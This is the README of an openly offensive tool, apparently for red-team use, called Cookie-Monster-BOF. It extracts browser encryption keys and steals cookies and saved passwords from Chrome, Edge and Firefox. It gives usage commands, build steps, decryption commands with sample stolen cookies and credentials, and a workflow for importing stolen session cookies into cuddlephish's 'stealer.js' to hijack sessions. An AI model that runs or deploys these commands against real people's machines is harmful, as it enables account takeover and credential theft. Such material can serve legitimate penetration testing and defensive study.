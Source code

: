 # Cookie-Monster-BOF
Steal browser cookies for edge, chrome and firefox through a BOF or standalone EXE!

Cookie Monster BOF will extract the WebKit Master Key and the App Bound Encryption Key for both Edge and Chrome, locate a browser process with a handle to the Cookies and Login Data files, copy the handle(s) and then filelessly download the target file(s). 

*Note: the EXE does not support fileless download but instead copies to a default database in the* `C:\Temp` *directory for extraction later.*

Once the Cookies/Login Data file(s) are downloaded, the python decryption script can be used to extract those secrets! Firefox module will parse the profiles.ini and locate where the logins.json and key4.db files are located and download them. A seperate github repo is referenced for offline decryption.  

Chrome & Edge 127+ Updates: new chromium browser cookies (v20) use the app bound key to encrypt the cookies. As a result, this makes retrieving the app_bound_encrypted_key slightly more difficult. Thanks to [snovvcrash](https://gist.github.com/snovvcrash/caded55a318bbefcb6cc9ee30e82f824) this process can be accomplished without having to escalate your privileges. The catch is your process must be running out of the web browser's application directory. i.e. must inject into Chrome/Edge or spawn a beacon from the same application directory as the browser. 

Latest update allows you to decrypt cookies as SYSTEM and without having to inject into the browser process! Shoutout to @sdemius for the discovering how to decrypt the Chrome's [PostProcessData](https://source.chromium.org/chromium/chromium/src/+/main:chrome/elevation_service/elevator.cc;l=216;bpv=1) function and @b1scoito [explanation](https://github.com/moonD4rk/HackBrowserData/issues/431#issuecomment-2606665195)! Chrome 137+ changed the PostProcessData() function once again, shoutout to [@runassu](https://github.com/runassu/chrome_v20_decryption) for figuring it out! 

## BOF Usage
```
Usage: cookie-monster [--chrome || --edge || --system <Local State File Path> <PID> || --firefox || --chromeCookiePID <PID> || --chromeLoginDataPID <PID> || --edgeCookiePID <PID> || --edgeLoginDataPID <PID> ] [--cookie-only] [--key-only] [--login-data-only] [--copy-file "C:\Folder\Location\"] 
cookie-monster Examples: 
   cookie-monster --chrome 
   cookie-monster --edge
   cookie-monster --system "C:\Users\<USER>\AppData\Local\<BROWSER>\User Data\Local State" <PID>
   cookie-moster --firefox 
   cookie-monster --chromeCookiePID <PID>
   cookie-monster --chromeLoginDataPID <PID> 
   cookie-monster --edgeCookiePID <PID> 
   cookie-monster --edgeLoginDataPID <PID> 
cookie-monster Options: 
    --chrome, looks at all running processes and handles, if one matches chrome.exe it copies the handle to cookies and then copies the file to the CWD 
    --edge, looks at all running processes and handles, if one matches msedge.exe it copies the handle to cookies and then copies the file to the CWD 
    --system, Decrypt chromium based browser app bound encryption key without injecting into browser. Requires path to Local State file and PID of a user process for impersonation 
    --firefox, looks for profiles.ini and locates the key4.db and logins.json file 
    --chromeCookiePID, if chrome PID is provided look for the specified process with a handle to cookies is known, specifiy the pid to duplicate its handle and file 
    --chromeLoginDataPID, if chrome PID is provided look for the specified process with a handle to Login Data is known, specifiy the pid to duplicate its handle and file   
    --edgeCookiePID, if edge PID is provided look for the specified process with a handle to cookies is known, specifiy the pid to duplicate its handle and file 
    --edgeLoginDataPID, if edge PID is provided look for the specified process with a handle to Login Data is known, specifiy the pid to duplicate its handle and file  
    --key-only, only retrieve the app bound encryption key. Do not attempt to download the Cookie or Login Data files. 
    --cookie-only, only retrieve the Cookie file. Do not attempt to download Login Data file or retrieve app bound encryption key. 
    --login-data-only, only retrieve the Login Data file. Do not attempt to download Cookie file or retrieve app bound encryption key.  
    --copy-file, copies the Cookie and Login Data file to the folder specified. Does not use fileless retrieval method.   
```
## Compile BOF 
Ensure Mingw-w64 and make is installed on the linux prior to compiling.
```bash
# to make all binaries
make

# to make just the BOF
make bof

# to make just the exe
make exe
```

## Decryption Steps
Install requirements
```
pip3 install -r requirements.txt
```

Usage
```
python3 decrypt.py -h                                                                                                                                                                      
usage: decrypt.py [-h] -k KEY -o {cookies,passwords,cookie-editor,cuddlephish,firefox} -f FILE [--chrome-aes-key CHROME_AES_KEY]

Decrypt Chromium cookies and passwords given a key and DB file

options:
  -h, --help            show this help message and exit
  -k KEY, --key KEY     Decryption key
  -o {cookies,passwords,cookie-editor,cuddlephish,firefox}, --option {cookies,passwords,cookie-editor,cuddlephish,firefox}
                        Option to choose
  -f FILE, --file FILE  Location of the database file
  --chrome-aes-key CHROME_AES_KEY
                        Chrome AES Key
```

Examples:
Decrypt Chrome/Edge Cookies File
```
python .\decrypt.py -k "\xec\xfc...." -o cookies -f ChromeCookies.db

Results Example:
-----------------------------------
Host: .github.com
Path: /
Name: dotcom_user
Cookie: KingOfTheNOPs
Expires: Oct 28 2024 21:25:22

Host: github.com
Path: /
Name: user_session
Cookie: x123.....
Expires: Nov 11 2023 21:25:22
```
Decrypt Chrome Cookies with Chrome AES Key
```
python3 decrypt.py --chrome-aes-key '\x8e\....' -k "\x03\...." -o cuddlephish -f ChromeCookies.db
Cookies saved to cuddlephish_2025-07-03_01-53-57.json
```
Decrypt Chrome/Edge Cookies File and save to json
```
python .\decrypt.py -k "\xec\xfc...." -o cookie-editor -f ChromeCookies.db
Results Example:
Cookies saved to 2025-04-11_18-06-10_cookies.json
```
Import cookies JSON file with https://cookie-editor.com/ 

Decrypt Chome/Edge Passwords File
```
python .\decrypt.py -k "\xec\xfc...." -o passwords ChromePasswords.db

Results Example:
-----------------------------------
URL: https://test.com/
Username: tester
Password: McTesty
```
Decrypt Firefox Cookies and Stored Credentials: <br>
https://github.com/lclevy/firepwd

### CuddlePhish Support
added cuddlephish option to the decrypt script which should support using the cookie with https://github.com/fkasler/cuddlephish

```
# Decrypt Cookies
python3 decrypt.py -k "\xec\xfc..." -o cuddlephish -f ChromeCookies.db

# Clone Project
cd 
git clone https://github.com/fkasler/cuddlephish
cd cuddlephish

# Install Dependencies Example on Debian 
curl -fsSL https://deb.nodesource.com/setup_23.x -o nodesource_setup.sh
sudo -E bash nodesource_setup.sh
sudo apt-get install nodejs
npm install

# Import Cookies
cp ~/cookie-monster/cuddlephish_YYYY-MM-DD_HH-MM-SS.json .
node stealer.js cuddlephish_YYYY-MM-DD_HH-MM-SS.json
```

## References
This project could not have been done without the help of Mr-Un1k0d3r and his amazing seasonal videos!
Highly recommend checking out his lessons!!! <br>
Cookie Webkit Master Key Extractor:
https://github.com/Mr-Un1k0d3r/Cookie-Graber-BOF <br>
Fileless download:
https://github.com/fortra/nanodump <br>
Decrypt Cookies and Login Data:
https://github.com/login-securite/DonPAPI <br>
App Bound Key Decryption:
https://gist.github.com/snovvcrash/caded55a318bbefcb6cc9ee30e82f824 <br>
Decrypt Chrome 137+ Cookies
https://github.com/runassu/chrome_v20_decryption

